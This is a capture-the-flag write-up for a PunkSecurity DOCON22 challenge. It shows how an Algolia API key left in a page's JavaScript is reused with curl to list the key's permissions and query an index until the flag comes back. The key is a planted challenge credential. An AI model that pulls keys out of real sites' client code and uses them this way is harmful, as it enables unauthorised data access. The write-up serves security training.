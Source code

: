 # Challenge description

Happy hunting!

https://punk-security.github.io/DOCON22_CTF2/

Author: PunkSecurity
-----------------------------------------------------------

in this page we can see the source code which is a js script 

![image](https://user-images.githubusercontent.com/58823465/166170882-47d38f4f-4af6-4ad7-b588-3957a81cbaf8.png)


So we know it uses the Algolia search engine API

The most interesting line in the code is 

```
searchClient: algoliasearch('SBD4QQONZU', '7086ec0b05107bb2dcc86f177e83c287'),
``` 

which turned out to be the APP_ID and API_KEY for Algolia, from the name of the challenge we can tell we got a "leaked" API_KEY that we can use to find interesting things

Reading throught the docs we find some curl commands we can try, so first off :

``` 
curl "https://SBD4QQONZU-dsn.algolia.net/1/keys/7086ec0b05107bb2dcc86f177e83c287?x-algolia-application-id=SBD4QQONZU&x-algolia-api-key=7086ec0b05107bb2dcc86f177e83c287"
```

Output :

```json
{
    "value": "7086ec0b05107bb2dcc86f177e83c287",
    "createdAt": 1651305758,
    "acl": ["search", "listIndexes"],
    "validity": 0,
    "indexes": ["punk_PUBLIC_INDEX", "punk_DOCON22"],
    "description": "DOCON22_CTF"
}
``` 

Algolia works with ACLs and Indexes and we can see we have some indexes and an ACL which can "listIndexes" and do a "search".

Using this curl command we can use the ListIndexes ACL

```
curl -X GET "https://SBD4QQONZU-dsn.algolia.net/1/indexes/punk_DOCON22?x-algolia-application-id=SBD4QQONZU&x-algolia-api-key=7086ec0b05107bb2dcc86f177e83c287"
```
Output

```json
{
    "hits": [{
        "flag": "DOCTF{pr0t3ct_th0s3_k3ys}",
        "objectID": "247439083e601_dashboard_generated_id",
        "_highlightResult": {
            "flag": {
                "value": "DOCTF{pr0t3ct_th0s3_k3ys}",
                "matchLevel": "none",
                "matchedWords": []
            }
        }
    }],
    "nbHits": 1,
    "page": 0,
    "nbPages": 1,
    "hitsPerPage": 20,
    "exhaustiveNbHits": true,
    "exhaustiveTypo": true,
    "query": "",
    "params": "x-algolia-application-id=SBD4QQONZU&x-algolia-api-key=7086ec0b05107bb2dcc86f177e83c287",
    "renderingContent": {},
    "processingTimeMS": 1
}
```

And there's our flag


``` Flag : DOCTF{pr0t3ct_th0s3_k3ys} ```

